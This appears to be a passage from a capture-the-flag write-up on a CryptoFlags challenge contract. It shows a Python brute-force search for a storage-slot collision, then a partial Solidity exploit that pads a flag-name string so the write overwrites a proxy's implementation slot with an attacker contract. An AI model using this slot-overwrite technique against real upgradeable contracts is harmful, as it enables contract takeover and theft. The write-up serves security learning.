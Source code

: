 ```python

min_delta = None

for i in range(100_000_000):
    if i % 1_000_000 == 0:
        print(f"checkpoint: {i}")
        print(min_delta)
    value = i.to_bytes(32) + (6).to_bytes(32)
    hash_value = int.from_bytes(get_hash(get_hash(value)), "big")
    for candidate in CANDIDATES:
        delta = candidate - hash_value
        if delta >= 0 and (min_delta is None or delta < min_delta):
            min_delta = delta
        if delta >= 0 and delta <= 10000:
            print(i, hex(hash_value), hex(candidate))

print(min_delta)
```

For ID 56.488.061 there is a collision for the implementation slot. The collision is 141 slots (1 slot == 32 bytes)
earlier than the slot.

We can overwrite the 141 slots with random data and fill the desired slot with the address of the new implementation.

Exploit code:
```
// SPDX-License-Identifier: Unlicensed
pragma solidity ^0.8.20;

import { ERC721 } from "./ERC721_flattened.sol";
import { CryptoFlags } from "./CryptoFlags.sol";

contract ExploitImpl is ERC721 {
  mapping(uint256 => string) public FlagNames;

  constructor()
      ERC721("CryptoFlags", "CTF")
  {}

  function isSolved() external pure returns (bool) {
      return true;
  }
}

contract Exploit {
  CryptoFlags flags;

  constructor(address flagsAddress) {
    flags = CryptoFlags(flagsAddress);
  }

  function exploit(address exploitImplAddress) external {
    uint256 flagId = 56488061;
    string memory slot = "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA";
    string memory newImplementation = string(abi.encode(exploitImplAddress));
    string memory payload;

    for (uint256 i = 0; i < 141; i += 1) {
      payload = string.concat(payload, slot);
    }
    payload = string.concat(payload, newImplementation);

```